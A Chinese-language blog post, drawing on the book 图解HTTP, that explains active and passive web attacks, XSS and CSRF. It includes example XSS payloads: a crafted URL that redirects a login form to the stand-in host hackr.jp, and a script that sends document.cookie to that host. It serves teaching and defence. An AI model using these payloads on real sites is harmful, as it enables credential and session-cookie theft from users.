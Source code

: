 ```yaml
---
author: Brian Hu
pubDatetime: 2017-09-09T03:38:05.000Z
title: 认识 HTTP Web 安全与攻击手段
postSlug: 认识 HTTP Web 安全与攻击手段
featured: false
draft: false
tags:
  - HTTP
ogImage: ""
description: 目前，互联网攻击大多是针对应用HTTP协议的服务器和客户端，以及运行在服务器上的Web应用等资源，本文主要针对Web应用的攻击技术进行简单分析。
---
```


**本文内容大多参考[《图解 HTTP》一书](https://book.douban.com/subject/25863515/)**

## 关于 Web 的攻击手段

目前，互联网攻击大多是针对应用 HTTP 协议的服务器和客户端，以及运行在服务器上的 Web 应用等资源，本文主要针对 Web 应用的攻击技术进行简单分析。

### 针对 Web 应用的攻击模式

对 Web 应用的攻击模式有以下两种。

- 主动攻击
  主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源。

![这个攻击者没法吐槽](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676448/blog/4337988-3b2645de43c3de0c.png_bbmtjo.png)

- 被动攻击
  被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式。在被动攻击过程中，攻击者不直接对目标 Web 应用访问发起攻击。
  被动攻击通常的攻击模式如下所示。

1. 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的 HTTP 请求。
2. 当用户不知不觉中招之后，用户的浏览器或邮件客户端就会触发这个陷阱。
3. 中招后的用户浏览器会把含有攻击代码的 HTTP 请求发送给作为攻击目标的 Web 应用，运行攻击代码。
4. 执行完攻击代码，存在安全漏洞的 Web 应用会成为攻击者的跳板，可能导致用户所持的 Cookie 等个人信息被窃取，登录状态中的用户权限遭恶意滥用等后果。被动攻击模式中具有代表性的攻击是跨站脚本攻击（xss）和跨站点请求伪造（CSRF/XSRF）。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676463/blog/4337988-72423c77abb5909d.png_jgdwfg.png)

### 因输出值转义不完全引发的安全漏洞

实施 Web 应用的安全对策可大致分为以下两部分。

- 客户端验证
- Web 应用端（服务器）验证
  - 输入值验证
  - 输出值转义

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676575/blog/4337988-511ebfb85ffa5947.png_txdspx.png)

多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI 体验的作用。
Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。

## 跨站脚本攻击（XSS）

跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或者 Javascript 的一种攻击。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。
跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片（莫名其妙的广告）。

### 简单例子

**在动态生成 HTML 处发生：**

下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

![跨站脚本攻击案例](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676474/blog/4337988-f42a8f9323739e75.png_cirsin.png)

确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口
一郎这样的 HTML 标签的字符串。

![按照输入内容原样显示的机制](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676487/blog/4337988-ec25584204f71ee4.png_tumma4.png)

此时的确认界面上，浏览器会把用户输入的`<s>` 解析成 HTML 标签，然后显示删除线。
删除线显示出来并不会造成太大的不利后果，但如果换成使用 script 标签将会如何呢。

## XSS 是攻击者利用预先设置的陷阱触发的被动攻击

跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。
下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676499/blog/4337988-23e6fa19d23f219e.png_f3ilku.png)
充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

```
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="
```

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676515/blog/4337988-d9c24bd7a2426f2b.png_akdyml.png)

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。

**对 http://example.jp/login?ID=yama 请求时对应的 HTML 源代码（摘录）**

```html
<div class="logo">![](/img/logo.gif)</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">ID <input type="text" name="ID" value="yama" /></div>
</form>
```

```html
**http://example.jp/login?ID="><script>var+f=document.getElementById
("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script>
<span+s="对请求时对应的HTML源代码（摘录）**
```

```html
<div class="logo">![](/img/logo.gif)</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value="" />
    <script>
      var f=document⇒
      .getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
      "get";
    </script>
    <span s="" />
  </div>
</form>
```

### 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。
`<script src=http://hackr.jp/xss.js></script>`
该脚本内指定的http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。然后这些信息会发送至攻击者的 Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的Cookie 信息了。

![使用XSS 攻击夺取Cookie 信息](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676534/blog/4337988-73e389217a5eca2a.png_sjfqmj.png)

## 跨站点请求伪造(CSRF)

跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。
跨站点请求伪造有可能会造成以下等影响。

- 利用已通过认证的用户权限更新设定信息等
- 利用已通过认证的用户权限购买商品
- 利用已通过认证的用户权限在留言板上发表言论

### 跨站点请求伪造的攻击案例

下面以留言板功能为例，讲解跨站点请求伪造。该功能只允许已认证并登录的用户在留言板上发表内容。

![跨站点请求伪造的攻击案例](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676550/blog/4337988-aa8130ff059c20c4.png_vs3atg.png)

在该留言板系统上，受害者用户 A 是已认证状态。它的浏览器中的 Cookie 持有已认证的会话 ID（步骤 ①）
攻击者设置好一旦用户访问，即会发送在留言板上发表非主观行为产生的评论的请求的陷阱。用户 A 的浏览器执行完陷阱中的请求后，留言板上也就会留下那条评论（步骤 ②）。
触发陷阱之际，如果用户 A 尚未通过认证，则无法利用用户 A 的身份权限在留言板上发表内容。
